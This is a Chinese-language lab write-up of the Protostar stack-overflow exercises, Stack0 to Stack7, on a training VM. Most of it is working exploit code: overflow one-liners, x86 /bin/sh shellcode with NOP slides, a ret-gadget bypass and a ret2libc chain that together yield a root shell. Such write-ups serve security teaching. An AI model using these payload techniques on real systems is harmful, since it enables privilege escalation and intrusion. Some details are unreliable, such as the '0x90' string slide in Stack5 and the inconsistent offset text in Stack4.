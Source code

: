 # Protostar

## Stack0

先蓋 64 個字

再蓋下去就是 modified (目標)

這題只要讓 modified != 0

所以隨便蓋就好

`python -c "print 'A'*64+'whatever'" | ./stack0`

## Stack1

這題 modified 和 buffer 的相對距離一樣是 64 個字

但是要把 modified 變成 0x61626364 (小心 little endian)

注意 input 是從 argv 參數進來的 (我用 xargs 把 python 產生的字給 stack1 當參數)

`python -c "print 'A'*64+'dcba'" | xargs ./stack1`

## Stack2

這題也一樣

不過 input 變成從 GREENIE(環境變數) 拿值進來

```
GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
export GREENIE
./stack2
```

## Stack 3

這題要把 fp (function pointer) 改成 win 這個函式的位置

offset (buffer 和 fp 的相對距離) 也一樣是 64 bytes (也就是先蓋 64 個字之後就蓋到目標 fp 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x8048424

`python -c "print 'A'*64+'\x24\x84\x04\x08'" | ./stack3`

## Stack4

這題要把 stack 上的 return address 改成 win 這個函式的位置

offset (buffer 和 return address 的相對距離) 是 76 bytes (也就是先蓋 64 個字之後就蓋到目標 return address 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x80483f4

`python -c "print 'A'*76+'\xf4\x83\x04\x08'" | ./stack4`

## Stack5

這題要把 shellcode 塞到 stack 上執行囉~(興奮XD)

首先正確的蓋到 return_address (讓他 return 到 stack 後面一點的位置)

再建一個 nop 通道讓他滑到執行 shellcode

然後當然也要把 shell code 放到 stack 上

```python
import struct

padding = 'A'*76
return_address = struct.pack("I",0xbffff78c+50)
slide_path = '0x90'*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
print padding + return_address + slide_path + shell_code
```

`(python exploit.py ; cat ) | ./stack5`

拿到 sh 了而且還是 root 的權限 (我們原本是 user 的權限)

## Stack6

這題和上一題差不多只要我們能 return 到我們塞的 shellcode 就好

可是多了這行 `if((ret & 0xbf000000) == 0xbf000000)` ( 如果成立就直接 exit )

而 0xbf 開頭的位址就包含了我們能控制的所有 stack

#### 作法一 : 

我們在 stack 上把 return address 和他的下一個位址改成 `ret` 那行 code 的位址和我們真正要 return 的位址

所以程式檢查 return address 是不是 0xbf 開頭 -> 當然不是因為現在的 return address 是 `ret` 那行 code 的位址

然後執行到 `ret` 時就會先 return 到 `ret` 那行 code ( 也就是再 return 一次 )

所以就會抓 stack 上面下一個值 return 到我們真正要 return 的位址 -> BINGO

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x80484f9)
return_address = struct.pack("I",0xbffff78c+30)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`(python exploit.py ; cat ) | ./stack6`

#### 作法二 : 

return to libc 的 system 函式並傳遞 "/bin/sh" 的參數進去

從 return address 開始蓋

蓋 libc 中 system 這個 function 的位址

蓋 system call 完要 return 的 address

蓋 "/bin/sh" 這個參數 ( 用 linux 指令 strings 去找 libc 裡面這個字串的位址 )

```python
import struct

padding = "A"*80
system = struct.pack("I",0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack("I",0xb7fb63bf)

print padding + system + return_after_system + bin_sh
```

`(python exploit2.py ; cat ) | ./stack6`

## Stack7

這次不給跳到 0xb 開頭的位址 ( Stack6 的作法二不能用了 )

和 Stack6 的作法一一樣先塞個 gadget ( 0x80 開頭 )

注意位址要再用 gdb 找一次喔

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x8048544)
return_address = struct.pack("I",0xbffff77c+50)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`(python exploit.py ; cat ) | ./stack7`
